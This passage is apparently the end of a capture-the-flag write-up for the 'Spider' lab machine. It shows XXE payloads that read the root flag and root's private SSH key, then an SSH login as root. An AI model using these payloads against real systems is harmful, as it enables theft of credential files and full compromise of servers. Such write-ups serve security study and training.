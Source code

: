 Now that xxe confirmed we can read file from system and this is running as root so we can read root file.
```xml
username=&xxe;&version=1.0.0--><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///root/root.txt"> ]><!--
```

![](/assets/img/posts/spider/xxe-to-root-flag.png)

Getting root shell with ssh key
```xml
username=&xxe;&version=1.0.0--><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa"> ]><!--
```

```bash
❯ ssh -i root_rsa root@spider.htb
root@spider:~# id
uid=0(root) gid=0(root) groups=0(root)
root@spider:~# 
```
